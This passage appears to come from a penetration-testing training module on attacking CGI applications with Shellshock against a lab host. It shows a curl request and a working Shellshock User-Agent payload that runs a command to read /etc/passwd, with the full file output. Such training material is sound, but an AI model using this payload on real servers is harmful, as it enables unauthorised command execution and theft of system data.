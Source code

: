 ```shell-session
                                             
===============================================================
2023/03/23 09:26:29 Finished

```

Next, we can cURL the script and notice that nothing is output to us, so perhaps it is a defunct script but still worth exploring further.

Attacking Common Gateway Interface (CGI) Applications - Shellshock

```shell-session
AIceBear@htb[/htb]$ curl -i http://10.129.204.231/cgi-bin/access.cgi

HTTP/1.1 200 OK
Date: Thu, 23 Mar 2023 13:28:55 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Length: 0
Content-Type: text/html
```

**Confirming the Vulnerability**

To check for the vulnerability, we can use a simple `cURL` command or use Burp Suite Repeater or Intruder to fuzz the user-agent field. Here we can see that the contents of the `/etc/passwd` file are returned to us, thus confirming the vulnerability via the user-agent field.

Attacking Common Gateway Interface (CGI) Applications - Shellshock

```shell-session
AIceBear@htb[/htb]$ curl -H 'User-Agent: () { :; }; echo ; echo ; /bin/cat /etc/passwd' bash -s :'' http://10.129.204.231/cgi-bin/access.cgi

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
ftp:x:112:119:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
kim:x:1000:1000:,,,:/home/kim:/bin/bash
```